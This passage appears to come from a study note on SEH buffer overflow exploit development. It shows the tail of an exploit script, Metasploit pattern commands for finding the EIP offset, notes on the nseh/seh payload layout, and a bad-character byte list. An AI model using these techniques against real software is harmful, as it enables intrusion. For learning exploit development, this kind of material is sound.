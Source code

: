 ```
if __name__ == "__main__": 

    send_exploit_request()
```

## Find Offset

For finding the offset where the `EIP` get overwrited.
- Create Unique pattern:
```
msf-pattern_create -l size
```
- Find the offset match of the pattern
```
msf-pattern_offset -l size -q value
```

Note:
```
You have to -4 the offset when find it, Cause the offset is for the current_seh_handler and offset+4 is the nseh.

the payload send is as the following:
nseh = the jmp short bytes
seh = pop r32; pop r32; ret;
```
### Get SEH value with `Windbg`

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/751fd506-7f6b-4f99-8807-e807c0ebc672)


### Never forget to add the final padding

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/0926803b-f3b9-4165-9b3a-4e42aa3e144e)


## Detect BadChars

```
badchars = (
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
